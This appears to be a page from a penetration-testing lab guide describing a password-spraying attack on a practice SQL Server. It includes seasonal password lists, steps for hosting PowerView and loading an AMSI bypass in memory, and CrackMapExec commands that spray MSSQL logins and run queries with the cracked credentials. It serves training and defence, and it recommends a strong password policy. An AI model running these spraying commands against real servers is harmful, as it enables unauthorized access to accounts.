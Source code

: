# Weak passwords

## Configuring

### Prerequisite&#x20;

The weak passwords were configured during the creation of the SQL Server users and Domain users in the section "Enumerate Logins".

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

## Attacking

### How it works

SQL Servers can have two type of accounts that could connect to it. Domain user accounts and groups or SQL Server accounts. These accounts have access to the SQL server and might have higher privileges then we currently have. By spraying passwords against these user we might get access to them.

#### Password spraying

Password spraying is a type of brute force attack. An attacker will try a default password against a list of usernames. For example, an attacker uses the password `Welcome2022!` against many different accounts to avoid account lockout that would normally occur when brute-forcing a single account with many passwords.

A old habit what a lot of companies enforce is the requirement to change passwords every 30, 60 or 90 days. Which results in people changing their password often, forgetting it and eventually choosing a easy guessable password. Another habbit is adding a increment to the same password or using months/seasons. Which means we can easily create a password list of common passwords and things people would choose using following formats:

* season+year+! (Summer2022!)
* month+year+! (March2022!)
* companyname+year+! (Amsterdambank2022!)
* city+! (Amsterdam!)
* etc.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

### Executing the attack

1. So during the enumeration we discovered that there are three domain users or groups: `AMSTERDAM\richard`,  `BANK\administrator` and `AMSTERDAM\DatabaseUsers`.&#x20;
2. To check which of these are users and groups, login to `WS01` as `Richard` with the password `Sample123`.
3. Download PowerView on the kali machine and host it on a webserver:

```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
python3 -m http.server 8090
```

4\. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../../../.gitbook/assets/image (7).png>)

5\. Now we can query these objects using PowerView and the `Get-DomainObject` cmdlet. We already know who Richard is and the Administrator is a well known user. We will query DatabaseUsers:

```
Get-DomainObject DatabaseUsers
```

![](<../../../../../.gitbook/assets/image (52) (1).png>)

6\. The output shows us that the `DatabasUsers` is a group object and that `bob` is its only member.

7\. We already sprayed passwords at the SQL server during the initial access steps. We will do it again here. First we need to make a list of the enumerated logins, we will split them in `sqlusers.txt` and `domainusers.txt`.

```
# sqlusers.txt
Developer
Developer_test
testadmin
bob
SQLAdmin

# domainusers.txt
bob
```

8\. Secondly create a `passwords.txt` file and copy the following passwords like we did during the password spraying attack earlier and we will also add the usernames since sometimes admin set the username as the password:

```
Spring2022!
Winter2022!
Autumn2022!
Summer2022!
Welcome2022!
Bank2022!
AmsterdamBank2022!
Fall2022!
testadmin
bob
SQLAdmin
Developer
Developer_test
```

9\. First we will run Crackmapexec to connect to the MSSQL service running on `WEB01` and spray with local SQL users. We have to use the `--local-auth` flag otherwise it will spray under the domain context. We will also use the `--continue-on-success` flag so it doesn't stop after the first successfull hit.

```
crackmapexec mssql 10.0.0.5 -u sqlusers.txt -p passwords.txt --local-auth --continue-on-success | grep "+"
```

![](<../../../../../.gitbook/assets/image (12) (1) (1).png>)

We found the password for three users and it seems thats `SQLAdmin` has sysadmin rights since it shows `Pwn3d!` , this means it has admin rights. Since we are spraying MSSQL logins this means sysadmin rights. If we were spraying with SMB it meant the user was localadmin on the machine.

10\. We can also run Crackmapexec with the domain context:

```
crackmapexec mssql 10.0.0.5 -u domainusers.txt -p passwords.txt --continue-on-success | grep "+"
```

![](<../../../../../.gitbook/assets/image (18) (1) (1).png>)

We discovered the password of another user `bob`, but this time the Domain User. We already connected to the SQL service using both SQL accounts and Domain user accounts. This can be done with tools such as mssql-cli or heidiSQL.&#x20;

11\. Something we didn't show is that its possible to execute sql queries with crackmapexec:

```
crackmapexec mssql 10.0.0.5 -u SQLAdmin -p Winter2022! --local-auth -q "select @@version"
```

![](<../../../../../.gitbook/assets/image (36).png>)

There will always be loads of tools which can do the same stuff, it will always come down to convenience and where you are used too or like the most. Check the executing commands page under SQL Server Attacks to read how to execute cmd commands:

{% content-ref url="../../executing-commands.md" %}
[executing-commands.md](../../executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Implement a strong password policy:

{% content-ref url="../../../../../defence/hardening/strong-password-policy.md" %}
[strong-password-policy.md](../../../../../defence/hardening/strong-password-policy.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}
